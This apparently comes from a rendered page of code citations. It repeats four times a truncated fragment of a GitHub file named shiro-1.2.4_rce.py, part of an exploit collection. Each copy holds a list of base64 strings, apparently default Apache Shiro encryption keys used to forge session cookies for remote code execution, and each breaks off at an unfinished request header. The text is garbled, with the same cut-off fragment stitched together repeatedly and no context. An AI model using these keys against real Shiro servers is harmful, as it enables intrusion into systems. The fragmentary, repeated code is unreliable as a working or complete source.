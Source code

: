 
## License: 未知
https://github.com/loongst/projectcode/blob/e248e930085bff8b9b15abc6f987bb3581da4c81/pocs/other/exphub-master/shiro/shiro-1.2.4_rce.py

```
[
            "kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
            "4AvVhmFLUs0KTA3Kprsdag==", "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==",
            "bWljcm9zAAAAAAAAAAAAAA==", "wGiHplamyXlVB11UXWol8g==", "Z3VucwAAAAAAAAAAAAAAAA=="
        ]
        header = {
           
```


## License: 未知
https://github.com/loongst/projectcode/blob/e248e930085bff8b9b15abc6f987bb3581da4c81/pocs/other/exphub-master/shiro/shiro-1.2.4_rce.py

```
[
            "kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
            "4AvVhmFLUs0KTA3Kprsdag==", "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==",
            "bWljcm9zAAAAAAAAAAAAAA==", "wGiHplamyXlVB11UXWol8g==", "Z3VucwAAAAAAAAAAAAAAAA=="
        ]
        header = {
            '
```


## License: 未知
https://github.com/loongst/projectcode/blob/e248e930085bff8b9b15abc6f987bb3581da4c81/pocs/other/exphub-master/shiro/shiro-1.2.4_rce.py

```
[
            "kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
            "4AvVhmFLUs0KTA3Kprsdag==", "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==",
            "bWljcm9zAAAAAAAAAAAAAA==", "wGiHplamyXlVB11UXWol8g==", "Z3VucwAAAAAAAAAAAAAAAA=="
        ]
        header = {
            'User
```


## License: 未知
https://github.com/loongst/projectcode/blob/e248e930085bff8b9b15abc6f987bb3581da4c81/pocs/other/exphub-master/shiro/shiro-1.2.4_rce.py

```
[
            "kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
            "4AvVhmFLUs0KTA3Kprsdag==", "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==",
            "bWljcm9zAAAAAAAAAAAAAA==", "wGiHplamyXlVB11UXWol8g==", "Z3VucwAAAAAAAAAAAAAAAA=="
        ]
        header = {
            'User-agent
```
